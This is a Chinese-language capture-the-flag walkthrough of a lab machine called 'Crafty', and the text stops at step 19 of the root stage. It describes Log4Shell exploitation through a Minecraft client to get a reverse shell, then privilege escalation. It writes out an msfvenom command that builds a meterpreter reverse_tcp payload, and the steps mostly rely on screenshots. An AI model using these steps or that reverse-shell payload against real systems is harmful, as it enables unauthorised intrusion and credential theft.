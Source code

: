 Crafty Level:Easy
===
尋找user.txt
---
    1.執行Nmap蒐集資訊
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/fcb9fa95-f96f-4688-88d0-ef140cf168a6)

    2.目錄列舉，發現一個js資料夾是403

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f5b4d0b6-d52e-48ea-9c03-ed9bf1a63722)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/711cd664-28f2-46c3-b9ab-72df376aa95f)

    3.在使用dirbuster列舉，發現js資料夾裡面有main.js

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5673fc1-5556-4cf8-ad8b-2bd90a58b769)

    4.開啟main.js，有一段內容引人注目
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a3c42d5c-3937-4ac7-982e-0e4bf796c188)

這段程式碼主要功能是取得和顯示一個遊戲伺服器上的線上玩家數量。大概指的是mc伺服器，它透過定期查詢一個外部API來實現這一點，裡面運用了**updatePlayercount函數，**先是向https://api.bybilly.uk/api/players/${ip}/ ${port}發送一個GET請求，查詢指定IP和端口的遊戲伺服器的在線玩家數量，如果返回的是online，則顯示在.sip裡面，如果不返回online，說明斷線了，然後會在.playercount中顯示相應的信息，並使用setInterval設置一個定時器，每60秒調用一次updatePlayercount函數以定期更新玩家數量，裡面的是25565端口值得是mc的默認端口，這次利用log4j的poc來反彈shell，這次利用的是CVE-2021-44228編號的poc（也稱為Log4Shell漏洞）

    5.找到Log4Shell POC，執行前先下載jdk並變更檔名為jdk1.8.0_20
[CVE-2021-44228](https://github.com/kozmer/log4j-shell-poc)

[jdk](https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/216407a1-9d28-4028-87dd-07ea685ce016)

    6.修改poc.py，因系統為Windows所以改成cmd.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/6fd8f14f-7aa9-4cac-afb0-e598f6603cd4)

    7.執行poc.py，會產生一組LDAP位置

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/066b4a78-ee68-4dd8-9260-763098dc1745)

    8.下載mc工具
[mc工具](https://github.com/ammaraskar/pyCraft)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b7d546bd-d42f-483b-81d7-24f192eb4cc6)

    9.執行mc工具，出現連接後輸入LDAP位置
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db107bb6-81f3-4335-9ff5-21535330d8af)

    10.log4j會出現200，nc就會成功反彈shell

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/908cdb72-8770-4997-bf80-6b79d9b29319)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/23f5dcf6-c18b-458d-8d54-4c19a9c83522)

    11.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e333a12-f6d2-49c3-ae1c-69e2aaae7af8)

尋找root.txt
---
    12.在plugins底下發現有一個.jar的檔案，需下載檢查內容

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9510f70e-68d6-4bef-91e8-24460b8e0326)

    13.使用msfvenom建立一個reverse shell
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4244 -f exe -o expl.exe
    
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e5ceb9f4-3f51-4d13-9321-191fc35e0a5a)

    14.使用msf建立reverse連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/b4d6cdf8-2705-4eac-a4db-cf64ce8ae515)

    15.將製作好的reverse shell傳輸到Windows上

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e9bb9934-d1f5-40da-bd8c-68f47607fc59)

    16.執行expl.exe，msf會取得連接

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d4431f48-4295-47bc-b419-b62d84f61223)

    17.在msf上直接download .jar檔案

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/67d6a99c-5dbf-45e8-a894-a2cf8f93cb22)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/db619987-8f13-4d72-8dc5-b8eb05c5974f)

    18.反編譯.jar檔檢視內容，發現一組很像密碼的字串

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/26564a79-7f1e-4637-8226-a375a26d0780)

    19.找到RunasCs工具
    
[RunasCs] (https://github.com/antonioCoco/RunasCs)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/2c95e33c-af3f-4ca2-bc25-cf753b06c891)


